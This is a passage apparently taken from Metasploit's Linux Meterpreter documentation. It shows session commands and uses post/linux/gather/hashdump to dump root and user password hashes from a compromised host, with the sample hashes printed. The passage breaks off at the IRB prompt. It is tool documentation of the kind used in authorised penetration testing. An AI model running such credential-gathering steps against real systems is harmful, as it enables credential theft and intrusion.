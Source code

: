 ```
* OS name
* Architecture
* Meterpreter type

For example:

```
meterpreter > sysinfo
Computer     : sinn3r-virtual-machine
OS           : Linux sinn3r-virtual-machine 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:18:00 UTC 2015 (i686)
Architecture : i686
Meterpreter  : x86/linux
meterpreter > 
```

**Other commands**

For a complete list of Linux Meterpreter commands, do the following at the prompt:

```
meterpreter > help
```


## Using a Post module

One of the best things about Meterpreter is you have access to a variety of post modules that
"shell" sessions might not have. Post modules provide you with more capabilities to collect data
from the remote machine automatically. For example, stealing credentials from the system or
third-party applications, or modify settings, etc.

To use a post module from the Meterpreter prompt, simply use the ```run``` command. The following
is an example of collecting Linux hashes using post/linux/gather/hashdump:

```
meterpreter > run post/linux/gather/hashdump

[+] root:$6$cq9dV0jD$DZNrPKKIzcJaJ1r1xzdePEJTzn5f2V5lm9CnSdkMRPJfYy7QVx2orpzlf1XXBbIRZs7kT9CmYEMApfUIrWZsj/:0:0:root:/root:/bin/bash
[+] sinn3r:$6$S5lRz0Ji$bS0rOko3EVsAXwqR1rNcE/EhpnezmKH08Yioxyz/gLZAGh3AoyV5qCglvHx.vSINJNqs1.xhJix3pWX7jw8n0/:1000:1000:sinn3r,,,:/home/sinn3r:/bin/bash
[+] Unshadowed Password File: /Users/wchen/.msf4/loot/20160707112433_http_172.16.23.182_linux.hashes_845236.txt
meterpreter > 
```

Note that in order to collect Linux hashes, Meterpreter needs to run as root.

## Using the Post Exploitation API in IRB

To enter IRB, do the following at the Meterpreter prompt:

```
meterpreter > irb
[*] Starting IRB shell
[*] The 'client' variable holds the meterpreter client
